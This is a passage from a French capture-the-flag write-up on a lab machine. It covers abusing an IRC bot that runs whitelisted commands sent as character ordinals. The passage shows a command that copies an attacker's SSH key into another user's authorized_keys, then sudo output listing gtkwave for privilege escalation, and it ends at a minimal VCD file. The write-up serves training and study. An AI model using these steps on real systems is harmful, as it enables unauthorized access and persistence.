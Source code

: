 Déjà le fait que les commandes ne soient acceptées que depuis le `#chan1` c'était bien tricky.

Ensuite, on s'aperçoit que devant le smiley, on ne peut passer que des numéros et des whitespaces... Ce serait OK si le script ne vérifiait pas que l'utilisateur est dans une whitelist improbable, le pire étant qu'on fallback sur le même message d'erreur `[!] Format error or presence of illegal characters` ce qui explique que même si devine le bon format, j'obtiens cette erreur disant que ce n'est pas valide.

Pour terminer, une fois les numéros décodés, aucune exécution de code directe n'est faite, il y a encore une whitelist sur les commandes possibles. Et cela toujours sans aucune verbosité.

Toutes ces conditions laissent supposer que l'auteur du CTF a oublié de rendre le script lisible pour l'utilisateur `chatlake`. Deviner l'ensemble des inconnues ici est tout simplement impossible.

### It Wasn't Me

On va donc se reconnecter sur le chan IRC avec cet user `Todd` qui n'est mentionné nulle part ailleurs sur le CTF.

Le principe des numéros, c'est qu'il faut passer les valeurs ordinales des caractères de la commande. Ainsi pour la commande `dir` il faut envoyer `100 105 114 :)`.

On obtient alors cette réponse :

`(16:15:43) admin: [+] COMMAND EXECUTION：calc-prorate irc_bot.py`

Parmi les commandes autorisées il y a `busybox` qui permet d'exécuter toutes les commandes classiques de Linux. On va l'utiliser pour copier notre clé SSH :

```python
>>> " ".join([str(ord(c)) for c in "busybox cp /tmp/authorized_keys /home/pycrtlake/.ssh/"])
'98 117 115 121 98 111 120 32 99 112 32 47 116 109 112 47 97 117 116 104 111 114 105 122 101 100 95 107 101 121 115 32 47 104 111 109 101 47 112 121 99 114 116 108 97 107 101 47 46 115 115 104 47'
```

On arrive enfin à la fin avec ce dernier sudo :

```console
pycrtlake@PyCrt:~$ sudo -l
Matching Defaults entries for pycrtlake on PyCrt:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pycrtlake may run the following commands on PyCrt:
    (ALL) NOPASSWD: /usr/bin/gtkwave
```

`gtkwave` est un programme qui travaille sur les fichiers VCD. J'ai demandé à l'IA Claude de me générer un VCD valide, mais le plus petit possible :

```
$date
$end
$version
$end
$timescale 1ns
$end
$scope module m $end
$var wire 1 a x $end
$upscope $end
$enddefinitions $end
#0
$dumpvars
0a
$end
#10
1a
$end
```
